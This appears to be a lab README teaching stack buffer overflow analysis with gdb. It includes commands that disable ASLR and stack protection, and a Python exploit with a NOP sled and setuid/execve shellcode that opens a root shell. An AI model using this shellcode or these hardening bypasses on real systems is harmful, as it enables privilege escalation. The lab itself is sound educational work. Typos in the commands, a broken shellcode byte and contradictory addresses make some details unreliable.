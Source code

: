 #Buffer Overflow

The objective of this project is to learn how to analyze whether a program has a buffer
overflow (BOF) vulnerability, how to exploit BOF and how to defend against BOF.
BOF is an anomaly that violates memory safety. If you give an input that is longer
than expected length, it would be written out of bounds to a block of fixed pre-
allocated memory. This situation leads to data corruption and crash of the program
or executes malicious codes by changing control flow of the program. To exploit buffer overflow properly, we have to install Ubuntu 14.04.03 LTS 32-Bit version OS.

We have to disable address space randomization (ASR). ASR is able to put address space targets in unpredictable locations. If an attacker attempts to exploit an incorret address space location, the target application will crash, stopping the attack and alerting the system. We don't need these kind of things if we want to write Buffer Overflow exploits. 

Disable ASR

```
$ sudo systcl -w kernel .randomize_va_space=0

[sudo] password for : 

```

1. 0 means No randomization. Everything is static.
2. 1 means Conservative randomization. Shared libraries, stack, mmap(), VDSO and heap are randomized.
3. 2 means Full randomization. In addition to elements listed in the previous point, memory managed through brk() is also randomized.

randomize_va_space value will be set to 2 after reboot. We can disable ASR permanently by adding `sudo nano /etc/sysctl.d/01-disable-aslr.conf` containing `kernel.randomize_va_space=0`

The gcc compiler has a protection scheme called "Stack Guard". BOF attacks will not work with this scheme. We have to add `fno-stack-protector` option to our command. 

`$ gcc -fno-stack-protector -z exestack -g -o sample sample.c`

-g - indicates that you can analyze a program with gdb.
-o - name of executable program.

There are security mechanisms against attacks like BOF that use shell programs like /bin/sh linked to /bin/bash. Thus, privileges for shell are dropped and we can not retain the privileges inside the shell. Therefore, we will use another shell, zsh.

```
$ sudo su

[sudo] password for :

apt-get install zsh

cp /bin/sh /bin/sh.bak

ln -s /bin/zsh /bin/sh

```

## Experiment 1

#### Valid Input

![valid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-1.png)

We firstly executed these commands to check stack boundaries:

start
info registers

The important registers for us are $esp (top of the stack) and $ebp (bottom of the stack). These registers can tell us that where the bof function starts and ends.  Our bof function starts at 0bfffee90 and ends 0bfffef18.

Then x/80x $esp command executed to examine 80 hexadecimal words, starting at $esp. 


Bof function starts at 0bfffef90 and ends 0bfffef18.  The first word after $ebp actually is a return address of bof but we are gonna talk about this later. 

We also defined breakpoints at *main+48 (at return instruction of main) and *bof+27 (right after strcpy function). Input were sequence of 's' characters (smaller than 100). 

![valid-input-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-2.png)

Here we can see that 's' (73 in ASCII) characters fill the appropriate field of stack and return address  wasn't overwritten by 's' characters.

```python
#!/usr/bin/python

print  's' * 64
```

![valid-input-3](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-3.png)

We checked current eip by typing info frame command and there is no changes. Later we will see that how the instruction pointer changes when user enters invalid input.

EIP holds the memory address of next instruction that would be executed.

Info frame command can give us information about stack frames. Now we will try to interpret these     output that you see above. 

###### Stack level 0

Frame number in backtrace, 0 is current executing frame, which grows downwards, in consistence with the stack.

###### Frame at 0bfffef20

Starting memory address of this stack

###### eip = 08048498 in bof (bof.c: 13); saved eip = 080484be 

We said that eip is register for next instruction to execute. So 0*8048498 will be next instruction to execute (line 13 of bof).  

###### saved eip 

080484be is called return address. Pushed into stack upon CALL (save it for return).

###### Arglist at 0bffef18 

The starting address of arguments

###### Locals at 0bfffef18

The starting address of locals 


###### Previous frame's sp is 0bfffef20 

The previous frame's stack pointer point to (the caller frame), at the moment of calling, it also the starting memory address of called stack frame.

###### Saved Registers

* ebp at 0bffef18 address where ebp register of caller's stack frame saved.  (it is the register, not the caller´s stack address). i.e., corresponding to "PUSH %ebp". "ebp" is the register usually considered as the starting address of the locals of this stack frame, which use "offset" to address. 

* eip at 0bfffef1c as mentioned before, but here is the address of the stack (which contains the value "080484be")

#### Invalid Input

![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-1.png)

Now we see that return address (first word after ebp) overwritten to 0737373 (ebp was 0*bfffef18).

```python
#!/usr/bin/python

print  's' * 116
```

![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-2.png)

We can check eip register to see changes using info frame. Saved eip updated to 0737373 and there have no instruction like 0737373. So we got segmentation  fault.

#### Open Root Shell

Shellcode must not contain any null bytes (00). They will prevent the buffer from overflowing. Exploit that works in gdb may fail in  a real Linux shell because environment variables may cause the location of the stack to change slightly. Solution for this is a NOP Sled (a long series of “90” bytes) which do nothing. We used 64 byte NOP Sled. 

NOP (64 byte) + shellcode (32 byte) + padding (16 byte) + eip (4 byte)

Return address should hit the NOP's area. So eip will be point one of the starting address of NOP's area and instead of returning back to system, it return to the stack area, start executing the NOPs. Then proceeded to our shell.

```python
#!/usr/bin/python

   nop = '\x90' * 64
   shellcode =     ('\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2 f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80')

   padding = 's' * 16
   eip = '\xe0\xee\xff\xbf'  
   print nop + shellcode + padding + eip
```

![shellcode-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-1.png)

Now we see that return address is 0bfffeee0. It'll return back to NOP's area instead of returning main.

![shellcode-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-2.png)

Program opens shell but terminates it immediately. Note that, our program gets input using `gets` built-in function. To run shell please get input from user as a argument.

## Experiment 2

We will analyze stackbof in this experiment.

In main function, a copy function is called and an input, which is given when
the program runs, is passed to the copy function as an argument to copy into a
character array, buf has the length of 10-bytes. Then the input is printed to the
console. If the input is longer than 10 bytes, BOF will occur. We should jump to a hack function instead of the code after the copy function.
